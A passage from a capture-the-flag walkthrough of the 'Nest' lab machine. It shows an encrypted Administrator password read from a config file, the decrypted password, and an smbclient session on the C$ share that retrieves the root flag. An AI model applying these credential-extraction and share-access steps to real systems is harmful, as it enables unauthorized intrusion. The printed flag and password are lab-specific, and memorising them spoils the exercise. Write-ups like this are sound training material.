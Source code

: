 There is a config file and config files are prone to give passwords, so let's
read it.
Hopefully with the debug mode we unlocked the `showquery` = `cat`.

```
>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

This password is ciphered too, as earlier let's paste it in a search engine:

- VB.Net: https://dotnetfiddle.net/LdhDaa
- C#: https://dotnetfiddle.net/ndCO9U

So the deciphered password is: `XtH4nkS4Pl4y1nGX`.

Let's get root flag via the `C$` share with the `Administrator` account:

```
$ smbclient '\\10.10.10.178\C$' -U 'Administrator'
Unable to initialize messaging context
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Sun Jan 26 08:20:50 2020
  ..                                 DR        0  Sun Jan 26 08:20:50 2020
  desktop.ini                       AHS      282  Sat Jan 25 23:02:44 2020
  root.txt                            A       32  Tue Aug  6 00:27:26 2019

                10485247 blocks of size 4096. 6545277 blocks available
smb: \Users\Administrator\Desktop\> mget root.txt
Get file root.txt? y
getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)

$ cat root.txt
6594c2eb084bc0f08a42f0b94b878c41
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[cme]:https://inventory.raw.pm/tools.html#CrackMapExec
[e4l]:https://inventory.raw.pm/tools.html#enum4linux
[msf]:https://inventory.raw.pm/tools.html#Metasploit
